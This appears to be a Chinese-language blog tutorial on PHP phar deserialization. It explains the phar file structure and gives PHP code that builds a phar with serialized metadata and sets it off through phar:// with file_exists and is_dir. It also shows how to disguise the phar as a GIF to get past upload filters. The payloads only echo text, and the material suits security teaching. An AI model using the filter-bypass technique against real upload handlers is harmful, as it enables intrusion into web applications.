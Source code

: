 [TOC]

## phar反序列化总结

### 前言

php中很多都是使用`unserialize()`进行反序列化，但是有些是不需要使用这个函数也能进行反序列化的。

我们可以使用`phar文件`结合`相关函数`进行反序列化，此处我们讲解phar反序列化。



### 概念

在讲解之前，我们需要知道什么是`phar`，Phar是将php文件打包成的一种压缩文档，类似java中的jar包。它的特性就是phar文件会以反序列化的形式存储用户自定义的`meta-data`。配合`phar://伪协议`使用。

（简单来说，phar文件就是php的压缩文件，并且可以不经过解压就被php文件访问执行）



### 前提条件

> ```
> php.ini中设置为phar.readonly=Off
> php version>=5.3.0
> ```



### phar组成结构



| 属性      | 解释                                                         |
| --------- | ------------------------------------------------------------ |
| stub      | 它是`phar`的文件标识，格式：`xxx<?php xxx; __HALT_COMPLILER();?>` |
| manifest  | 就是`meta-data`,存放压缩文件信息，以序列化方式存储           |
| contents  | 压缩文件的内容                                               |
| signature | 签名，放在文件末尾                                           |

这里需要注意：

> 1、文件标识：phar文件标识放在文件的头部，但是必须以 `__HALT_COMPILER();?>`结尾，前面没有限制，这就意味着我们可以将phar文件进行伪造，添加一些图片或其他文件的头标志信息来绕过一些限制。
>
> 2、反序列化，phar存储的`meta-data`信息以序列化方式存储，当某一些**特定的文件操作函数**，
>
> 使用`phar://伪协议`来解析phar文件时，会将数据反序列化。

这样的文件操作函数有很多：

![20191112145239-0436a1c4-0519-1](https://s2.loli.net/2023/03/23/JlVktEbKgiWGAeH.png)

这些函数配合`phar://伪协议`时，就会反序列化数据



### 生成phar文件

我们可以使用php提供的内置类`Phar`来生成phar文件

```php
<?php
    class TestObject {
    	public function __destruct() {
            echo "hacker";
        }
    }

    @unlink("phar.phar");  //先删除存在的phar.phar
    $phar = new Phar("phar.phar"); //后缀名必须为phar
    $phar->startBuffering();
    $phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub
    $o = new TestObject();
    $phar->setMetadata($o); //将自定义的meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
?>
```

运行代码，就生成了一个phar文件：

![image-20230323144009160](https://s2.loli.net/2023/03/23/W9szSLkoGtvm2j5.png)

我们看到，`meta-data`中的数据确实是被序列化存储



### phar反序列化漏洞

有序列化的地方，就会存在反序列化。当`特定文件操作函数`通过`phar://伪协议`去解析phar文件时，就会将phar中数据反序列化



我们使用如下代码生成phar文件：

```php
<?php
    class TestObject {
       public function __destruct() {
            echo "hacker";
        }
    }

    @unlink("phar.phar");  //先删除存在的phar.phar
    $phar = new Phar("phar.phar"); //后缀名必须为phar
    $phar->startBuffering();
    $phar->setStub('<?php __HALT_COMPILER(); ?>'); //设置stub
    $o = new TestObject();
    $phar->setMetadata($o); //将自定义的meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
```

执行后，在当前目录生成了一个`phar.phar`文件

我们使用如下代码，证明反序列化（此处选取`file_exists()`函数）：

```php
<?php
     class TestObject {
       public function __destruct() {
            echo "nb plus!";
        }
    }
    $f = "phar://phar.phar";
    file_exists($f);

输出：
nb plus!
```

当文件系统函数的参数可控时，我们可以在不调用`unserialize()`的情况下进行反序列化操作,极大的拓展了攻击面，其它函数也是可以的，比如`is_dir`、`file_get_contents()`函数,代码如下:

```php
<?php
     class TestObject {
       public function __destruct() {
            echo "nb plus!";
        }
    }
    $f = "phar://phar.phar";
    is_dir($f);
```



### phar伪装成其他文件

有时我们可以结合文件上传和文件包含去执行反序列化漏洞，但是上传phar文件被过滤了，我们必须伪装成其他文件，例如gif、png等图片(检查文件类型)



在前面分析时，我们知道，php分析phar文件是根据`stub属性`，stub必须以`__HALT_COMPILER();?> `结尾。

对前面的内容、文件后缀是没有要求的，我们可以`添加文件头+修改文件后缀`伪装成其他文件

示范一下伪装成GIF：

```php
<?php
    class TestObject {
    }
    @unlink("phar.phar");  //先删除存在的phar.phar
    $phar = new Phar("phar.phar"); //后缀名必须为phar
    $phar->startBuffering();
    $phar->setStub("GIF89a".'<?php __HALT_COMPILER(); ?>'); //设置stub
    $o = new TestObject();
    $phar->setMetadata($o); //将自定义的meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
```

这样就伪装成GIF了

![image-20230323150245356](https://s2.loli.net/2023/03/23/OHBxsjf3ypkAie5.png)





### 利用条件

> phar文件需要上传到服务器端
> 要有可用的魔术方法作为“跳板”
> 文件操作函数的参数可控，且:  `/、phar`等特殊字符没有被过滤



### 参考

https://xz.aliyun.com/t/6753#toc-13

https://www.freebuf.com/articles/web/305292.html
